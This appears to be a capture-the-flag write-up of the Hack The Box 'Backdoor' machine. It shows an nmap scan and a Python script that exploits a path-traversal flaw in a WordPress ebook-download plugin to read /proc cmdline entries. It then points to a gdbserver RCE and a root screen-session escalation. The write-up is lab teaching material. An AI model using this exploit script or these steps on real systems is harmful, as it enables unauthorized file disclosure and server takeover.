 ```yaml
---
title: Backdoor - Easy
categories: htb LFI RCE
excerpt: | 
  Linux machine with a vulnerable page. 

feature_text: |
  ## Backdoor - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```



### Scanning process
nmap ip:
``` 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

``` 
Starting with port 80... We have to examine what type of service is, so `whatweb 'http://10.10.11.125'` will determine the next steps. 
It is running WordPress, it is known that some directory are abaible, like wp-content and especificly `wp-content/plugins`. It is tipical that a service like WordPress has some plugins outdate. And it is our case. 
`searchsploit wordpress ebook download` it is vulnerable to a Directory traversal attacks.


### Scripting in python
Now it's time to type some code in python to exploit this LFI. There are some path that are interesting to search into, like /proc where are located all actived process and how were they runned.
``` python
#!/usr/bin/python3

from pwn import *
import time, pdb, signal, sys, requests

# Global
main_url = "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"

# Ctrl+C
def def_handler(signum, frame):
    print("[!] Saliendo...")
    sys.exit(1)

def bruteForce():
    p1 = log.progress("Brute Force:")
    p1.status("Starting attack")

    s = requests.session()
    time.sleep(2)

    for i in range(1, 1000):
        p1.status("Trying with /proc/%s/cmdline" % str(i))
        
        url = main_url + str(i) + "/cmdline"
        r = s.get(url)
        if( len(r.content) > 82 ):
            print("------------------------------------------------")
            log.info("/proc/%s/cmdline" % str(i))
            print(r.content)
            print("------------------------------------------------")

signal.signal(signal.SIGINT, def_handler)

if __name__ == "__main__":
    bruteForce()

```
>[*] /proc/858/cmdline
>/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \\;; done'

>[*] /proc/859/cmdline
>/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done'


We found a gdbserver running in port 1337. `searchsploit gdbserver` and follow the RCE attack. You will be 'user'


### Privilege scalation
Finally we have to search  SUID privilege and there would be some ways to go root. This time we can see `/usr/bin/screen` and we saw the cmdline of this process before...
There is a session named root that we can go. `screen -x root/`
